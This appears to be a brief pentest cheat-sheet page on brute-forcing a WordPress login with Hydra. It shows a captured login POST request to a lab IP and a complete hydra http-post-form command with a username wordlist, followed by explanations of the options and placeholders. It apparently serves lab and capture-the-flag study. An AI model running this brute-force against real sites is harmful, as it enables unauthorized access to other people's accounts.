 # Hydra


## Bruteforce HTTP Form

To bruteforce a Login catch the request with burpsuite and for a hydra command.

Burpsuite Request
```
POST /wp-login.php HTTP/1.1
Host: 10.38.1.111
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 101
Origin: http://10.38.1.111
DNT: 1
Connection: close
Referer: http://10.38.1.111/wp-login.php
Cookie: s_fid=68C1BD34EC9C4864-1C81564B06522EDF; s_nr=1643752744400; s_cc=true; s_sq=%5B%5BB%5D%5D; wordpress_test_cookie=WP+Cookie+check
Upgrade-Insecure-Requests: 1

log=admin&pwd=123456&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.38.1.111%2Fwp-admin%2F&testcookie=1
```

Command:
```console
root@machine:~$ hydra -vV -L fsocity.dic.uniq -p wedontcare 192.168.2.4 http-post-form '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=Invalid username'

Options:
    -vV     verbose mode
    -L      use wordlist for Username
    -p      use given password
    -http-post-form     request type

Payload:
    '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=Invalid username'
```

`^USER^` & ``^PASS^`` are used as placeholder. 
``"F=Invalid username"`` is the string for the error message.
---
